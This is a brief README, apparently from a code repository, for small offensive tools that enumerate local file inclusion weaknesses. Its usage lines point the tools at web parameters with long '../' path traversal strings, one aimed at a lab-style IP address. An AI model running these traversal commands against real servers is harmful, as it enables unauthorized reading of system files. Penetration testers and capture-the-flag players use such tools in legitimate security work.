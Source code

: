 # sl0ppy-lfi
small lfi enum tool 

# Usage 

# Enum all
`./sl0ppy-lfi http://10.10.11.154/index.php?page=../../../../../../../../../../` 

# enum specific stuff like only libc
`./sl0ppy-lfi http://10.10.11.154/index.php?page=../../../../../../../../../../ | grep "libc"` 

# sl0ppy-ProcessInfo
`./sl0ppy-ProcessInfo http://server.vulnerable.com/download.php?file=` 
